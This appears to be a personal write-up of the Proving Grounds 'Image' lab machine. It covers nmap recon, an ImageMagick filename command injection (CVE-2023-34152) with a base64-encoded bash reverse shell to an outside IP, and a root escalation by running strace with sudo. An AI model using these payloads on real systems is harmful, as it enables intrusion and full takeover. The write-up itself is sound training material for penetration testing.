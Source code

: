 ```yaml
---
date: '2024-10-26'
before : '2024-10-24'
after : '2024-10-26'
title: 'Proving Grounds : Image'
categories: ['proving_grounds', 'pentest', 'ENG']
summary: 'Solving Image machine from Proving Grounds'
thumbnail: '../contentImages/image/1.png'
---
```


## 1. Recon

- nmap scan
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.228.178 -p- -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 16:00 EDT
Warning: 192.168.228.178 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.228.178
Host is up (0.029s latency).
Not shown: 65497 closed tcp ports (reset), 36 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 86.27 seconds

```
Okay, so it is a simple web application I'd assume.
- port 80
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.228.178 -p80 -sC -sV -A -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 16:03 EDT
Nmap scan report for 192.168.228.178
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 3.5 (87%), Linux 4.2 (87%), Synology DiskStation Manager 5.1 (87%), Linux 5.3 - 5.4 (87%), Linux 3.10 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```
Let's continue with enumeration

## 2. Initial Foothold

As I visited the website (port 80):

![image](../contentImages/image/1.png)

This functionality utilize the ImageMagick. As I uploaded an Image:
![image](../contentImages/image/2.png)
So we have the version number of ImageMagick. 

> https://github.com/ImageMagick/ImageMagick/issues/6339

It seems to be that CVE-2016-5118 is not correctly fixed on this version, which is a quite simple command injection vulnerability on Imagemagick
So I needed to reproduce this vulnerability, and I found an excellent github source for that:

> https://github.com/SudoIndividual/CVE-2023-34152

I executed it and got a malicious image file.
```
┌──(hlee㉿kali)-[~/oscp/offsec/image/CVE-2023-34152]
└─$ ls
 CVE-2023-34152.py   README.md  '|smile"`echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4yMDcvODAgMD4mMSI=|base64 -d|bash`".png'
```
And I uploaded it to our web endpoint.
```
┌──(hlee㉿kali)-[~/oscp/offsec/image/CVE-2023-34152]
└─$ python CVE-2023-34152.py 192.168.45.207 80
Created by SudoIndividual (https://github.com/SudoIndividual)
PNG file (payload) have been created in current directory. Upload the payload to the server
Do you want to run netcat shell? [y/N]y
listening on [any] 80 ...
connect to [192.168.45.207] from (UNKNOWN) [192.168.228.178] 38726
bash: cannot set terminal process group (1171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@image:/var/www/html$ 

```

And I got a shell! (and also the local.txt flag)

## 3. PrivEsc to root

I simply ran linpeas. Then:
![image](../contentImages/image/4.png)
we can run strace as root! GTFObins is your friend as always :)

> https://gtfobins.github.io/gtfobins/strace/

I followed the exact step, then got root!

```
www-data@image:/var/www$ /usr/bin/strace -o /dev/null /bin/sh -p
/usr/bin/strace -o /dev/null /bin/sh -p
whoami
root
```

Done!